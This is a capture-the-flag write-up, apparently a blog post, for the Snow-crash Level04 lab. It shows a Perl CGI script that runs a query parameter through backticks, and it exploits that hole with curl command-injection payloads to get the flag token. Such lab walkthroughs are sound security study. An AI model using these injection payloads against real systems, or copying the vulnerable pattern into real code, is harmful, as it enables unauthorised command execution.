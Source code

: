 ```yaml
---
title:  "Snow-crash Level04"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - [CyberSecurity,Github, Git]

toc: true
toc_sticky: true

date: 2024-2-13
last_modified_at: 2024-02-13
---
```


#### 1. The password of `level04` is the token that got from `level03`.

```bash
qi0maab88jeaj46qoumi7maus
```
#### 2. So, try login to `level04` with the password we got from `level03` and try to put the command 'ls -la'. We can see the file 'level04'. 
```bash
level03@SnowCrash:~$ su level04
Password: qi0maab88jeaj46qoumi7maus
level04@SnowCrash:~$
```
#### 3. Let's go inside in level04. 
```bash
level04@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
level04@SnowCrash:~$ ./level04.pl
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LC_TERMINAL_VERSION = "3.4.23",
	LC_CTYPE = "UTF-8",
	LC_TERMINAL = "iTerm2",
	LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
Content-type: text/html
```

We can see A file with `.pl` extension. 

So, what is a PL file? 

A file with .pl extension is a `Perl Script` file that is a scripting language. 

```bash
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

This is a simple `CGI(Common Gateway Interface) script` that takes a parameter "x" from the query string and prints the result of runnig the command specified by the parameter using the `echo` commmand.

<details>
<summary> Note: What is CGI?  </summary>
<br>
What is CGI? : CGI, or Common Gateway Interface, is a standard interface that enables communication between a web server and external programs or scripts. It allows for the creation of dynamic web pages, processing user input, and interaction with databases.
</details>

<br>
<details>
<summary> Note: What is query?  </summary>
<br>
In the context of the Perl CGI script provided, the "query" refers to the string of parameters and their values that are passed to the script through the URL when it is accessed.
<br><br>
This string typically follows a question mark (?) in the URL and consists of key-value pairs separated by ampersands (&).
<br><br>
For example, if you access the script via a URL like this:
<br><br>

http://example.com/cgi-bin/script.cgi?x=ls%20-l

<br><br>
In this URL, the query string is x=ls%20-l. Here, x is the parameter name, and ls%20-l is its value. The %20 is a URL-encoded representation of a space character.
<br><br>
So, in this example, the query is x=ls%20-l, where the parameter x is assigned the value ls -l. When the Perl CGI script is executed with this query, it retrieves the value of the x parameter (ls -l in this case) and executes it as a command.
</details>

<br>
<details>
<summary> Details for the perl script </summary>
<br>

1. `#!/usr/bin/perl`: This is a hashebang line specifying the path to the Perl interpreter to be used to execute this script.
<br><br>

2. `use CGI qw{param};`: This line imports the param function from the CGI module. The param function is used to retrieve the values of parameters from the query string.
<br><br>

3. `print "Content-type: text/html\n\n";`: This line sends an HTTP header indicating that the content is of type "text/html". The double newline (\n\n) separates the header from the body.
<br><br>

4. `sub x { ... }`: This defines a subroutine (function) named "x". It takes one parameter and assigns its value to the variable $y.
<br><br>

5. `$y = $_[0];`: This line assigns the value of the first (in this case, only) argument passed to the subroutine to the variable $y.
<br><br>

6. `print echo $y 2>&1;`: This line prints the result of the command specified in $y. Backticks (``) are used to execute the command, and `2>&1` redirects both standard output and standard error to the output. This is a common technique to capture both normal output and error messages.
<br><br>

7. `x(param("x"));`: This line calls the subroutine "x" using the value of the "x" parameter from the query string.
<br><br>

In summary, the script takes a parameter named "x" from the query string, uses it as a command, executes the command, and prints the result.
<br>
</details>
<br>

We can see another interesting thing in that perl script.
The script indicates that 

```bash
# localhost:4747
```

Maybe, there is something on the port 4747. 

#### 4. Let's check on the port 4747. 

`nc -zv` allows to check connection to 4747 without sending any data and verbose mode.

<details>
<summary> What is 'nc' command in Linux </summary>
<br>
1. nc : This is the command itself, which is short for "netcat." Netcat is a versatile networking utility for reading from and writing to network connections using TCP or UDP protocols.
<br>
2.  -z: This option tells nc to scan for open ports rather than initiating a data transfer. When used with the -v option, it prints verbose output, indicating whether the connection was successful or not.
<br>
3.  -v: This option stands for "verbose" and instructs nc to provide more detailed output, including the status of each connection attempt.
<br>
So, when you run nc -zv, you are instructing Netcat to attempt to connect to a specified host and port without sending any data (-z), while also providing verbose output (-v) to show the result of each connection attempt. This is commonly used for port scanning to check if a port on a remote system is open or closed.
<br>
</details>
<br>

```bash
level04@SnowCrash:~$ nc -zv localhost 4747
Connection to localhost 4747 port [tcp/*] succeeded!
```

#### 5. Now, combine numbers 3 and 4 and  let’s send data using the `x parameter` and `port 4747` with `curl` command.


```bash
level04@SnowCrash:~$ curl 'localhost:4747/level04.pl?x=`whoami`'
flag04
```

We got the `Flag04` with the whoami parameter.

Maybe we can try again with x parameter with getflag. And here we go, we got the flag :)
```bash
level04@SnowCrash:~$ curl 'localhost:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```


#### 6. We got a token for next level05

```
ne2searoevaevoem4ov4ar8ap
```
